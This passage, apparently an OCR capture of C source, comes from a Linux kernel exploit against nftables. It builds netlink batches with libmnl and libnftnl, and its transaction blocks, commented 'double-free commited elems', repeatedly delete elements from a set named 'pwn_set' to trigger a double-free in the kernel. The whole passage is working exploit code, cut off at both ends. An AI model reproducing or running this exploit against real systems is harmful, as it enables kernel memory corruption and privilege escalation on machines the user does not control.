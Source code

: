 ```c

    if (mnl_socket_sendto(nl, mnl_nlmsg_batch_head(batch),
                          mnl_nlmsg_batch_size(batch)) < 0)
    {
        perror("[-] [-] mnl_socket_sendto");
    }
    mnl_nlmsg_batch_stop(batch);

    // TRANSACTION 3
    batch = mnl_nlmsg_batch_start(mnl_batch_buffer, mnl_batch_limit);
    nftnl_batch_begin(mnl_nlmsg_batch_current(batch), seq++);
    mnl_nlmsg_batch_next(batch);

    set = nftnl_set_alloc();
    nftnl_set_set_u32(set, NFTNL_SET_FAMILY, family);
    nftnl_set_set_str(set, NFTNL_SET_TABLE, exploit_table_name);
    nftnl_set_set_str(set, NFTNL_SET_NAME, "pwn_set");


    // double-free commited elems
    nlh = nftnl_nlmsg_build_hdr(mnl_nlmsg_batch_current(batch),
                                NFT_MSG_DELSETELEM, family,
                                NLM_F_ACK,
                                seq++);
    nftnl_set_nlmsg_build_payload(nlh, set);
    nftnl_set_free(set);
    mnl_nlmsg_batch_next(batch);

    nftnl_batch_end(mnl_nlmsg_batch_current(batch), seq++);
    mnl_nlmsg_batch_next(batch);

    if (mnl_socket_sendto(nl, mnl_nlmsg_batch_head(batch),
                          mnl_nlmsg_batch_size(batch)) < 0)
    {
        perror("[-] mnl_socket_sendto");
    }
    mnl_nlmsg_batch_stop(batch);

    batch = mnl_nlmsg_batch_start(mnl_batch_buffer, mnl_batch_limit);
    nftnl_batch_begin(mnl_nlmsg_batch_current(batch), seq++);
    mnl_nlmsg_batch_next(batch);

    set = nftnl_set_alloc();
    nftnl_set_set_u32(set, NFTNL_SET_FAMILY, family);
    nftnl_set_set_str(set, NFTNL_SET_TABLE, exploit_table_name);
    nftnl_set_set_str(set, NFTNL_SET_NAME, "pwn_set");


    // double-free commited elems
    nlh = nftnl_nlmsg_build_hdr(mnl_nlmsg_batch_current(batch),
                                NFT_MSG_DELSETELEM, family,
                                NLM_F_ACK,
                                seq++);
    nftnl_set_nlmsg_build_payload(nlh, set);
    nftnl_set_free(set);
    mnl_nlmsg_batch_next(batch);

    nftnl_batch_end(mnl_nlmsg_batch_current(batch), seq++);
    mnl_nlmsg_batch_next(batch);

    if (mnl_socket_sendto(nl, mnl_nlmsg_batch_head(batch),
                          mnl_nlmsg_batch_size(batch)) < 0)
    {
```